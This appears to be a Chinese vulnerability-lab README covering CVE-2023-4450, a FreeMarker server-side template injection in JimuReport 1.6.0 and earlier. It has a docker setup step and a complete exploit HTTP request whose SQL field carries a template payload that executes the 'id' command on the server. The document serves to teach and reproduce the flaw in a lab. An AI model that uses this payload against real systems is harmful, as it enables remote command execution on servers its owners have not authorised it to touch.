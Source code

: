 # JimuReport FreeMarker 服务端模板注入命令执行（CVE-2023-4450）

积木报表（JimuReport）是一个开源的数据可视化报表平台。在其1.6.0版本及以前，存在一个FreeMarker服务端模板注入（SSTI）漏洞，攻击者利用该漏洞可在服务器中执行任意命令。

参考链接：

- <https://github.com/advisories/GHSA-j8h5-8rrr-m6j9>
- <https://whoopsunix.com/docs/java/named%20module/>

## 漏洞环境

执行如下命令启动一个JimuReport 1.6.0演示服务器：

```
docker compose up -d
```

等待一段时间后，访问`http://your-ip:8085`即可看到报表首页。

## 漏洞复现

发送如下请求，即可在服务端注入FreeMarker模板`<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}`：

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 100

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\")}'" }
```

可见，`id`命令已经成功被执行：

![](1.png)
